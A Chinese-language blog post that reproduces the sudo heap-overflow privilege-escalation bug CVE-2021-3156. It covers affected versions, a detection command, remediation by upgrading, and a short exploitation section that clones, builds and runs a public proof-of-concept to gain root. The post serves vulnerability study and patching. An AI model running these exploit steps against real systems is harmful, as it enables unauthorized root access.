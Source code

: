 ```yaml
---
title: Linux sudo权限提升（CVE-2021-3156）漏洞复现
tags: 漏洞复现
typora-root-url: ../
---
```


本文仅限技术研究与讨论，严禁用于非法用途，否则产生的一切后果自行承担。

<div style="text-align: right"> 小维</div>

#### 漏洞概述

Sudo是一个功能强大的工具，其允许普通用户执行root权限命令，大多数基于Unix和Linux的操作系统都包含sudo。

2021年01月26日，sudo被披露存在一个基于堆的缓冲区溢出漏洞（CVE-2021-3156，该漏洞被命名为“Baron Samedit”），可导致本地权限提升。

当sudo通过-s或-i命令行选项在shell模式下运行命令时，它将在命令参数中使用反斜杠转义特殊字符。但使用-s或 -i标志运行sudoedit时，实际上并未进行转义，从而可能导致缓冲区溢出。只要存在sudoers文件（通常是 /etc/sudoers），攻击者就可以使用本地普通用户利用sudo获得系统root权限。

安全研究人员于1月26日公开披露了此漏洞，并表示该漏洞已经隐藏了近十年。

<!--more-->

#### 受影响版本

```
Sudo 1.8.2 - 1.8.31p2
Sudo 1.9.0 - 1.9.5p1
```

#### 检测方法

以非root用户登录系统，并运行`sudoedit -s /`命令

响应一个以`sudoedit:`开头的报错，那么表明存在漏洞。

![image-20210202103228116](/img/Linux-sudo%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%EF%BC%88CVE-2021-3156%EF%BC%89/image-20210202103228116.png)

响应一个以`usage:`开头的报错，那么表明补丁已经生效。

![image-20210202114538438](/img/Linux-sudo%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%EF%BC%88CVE-2021-3156%EF%BC%89/image-20210202114538438.png)



#### 漏洞利用

```sh
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
make
./sudo-hax-me-a-sandwich <target_number>
```

##### kali Linux 测试

![image-20210202104425241](/img/Linux-sudo%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%EF%BC%88CVE-2021-3156%EF%BC%89/image-20210202104425241.png)

#### 修复建议

官方已在sudo新版本1.9.5p2中修复了该漏洞，请受影响的用户尽快升级版本进行防护。

官方下载链接：https://www.sudo.ws/download.html

![image-20210202114622883](/img/Linux-sudo%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%EF%BC%88CVE-2021-3156%EF%BC%89/image-20210202114622883.png)

#### 参考

https://www.sudo.ws/alerts/unescape_overflow.html

http://blog.nsfocus.net/cve-2021-3156/

https://github.com/blasty/CVE-2021-3156



